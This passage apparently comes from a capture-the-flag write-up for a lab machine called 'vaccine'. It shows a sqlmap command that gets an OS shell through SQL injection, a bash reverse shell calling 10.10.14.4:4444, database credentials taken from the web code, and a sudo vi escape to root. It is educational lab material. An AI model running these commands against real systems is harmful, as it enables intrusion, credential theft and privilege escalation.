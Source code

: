 We can use sqlmap to get an os-shell with this command:

`sqlmap -u http://10.10.10.46/dashboard.php?search=asdf --cookie=PHPSESSID=358c77u1tagqmghqqhbe8v4omd  --os-shell`

Once we have command injection we set up a reverse shell with this:

`bash -c 'bash -i &>/dev/tcp/10.10.14.4/4444 <&1'`

Once we get a shell we can check `/var/www/html/dashboard.php`

We find these credentials:
```
"host=localhost port=5432 dbname=carsdb user=postgres password=P@s5w0rd!"
```


sudo -l reveals this:
```
User postgres may run the following commands on vaccine:
    (ALL) /bin/vi /etc/postgresql/11/main/pg_hba.conf
```

With sudo privs for vi, we can just escape out of vi with root priv
```
:set shell=/bin/sh
:shell
```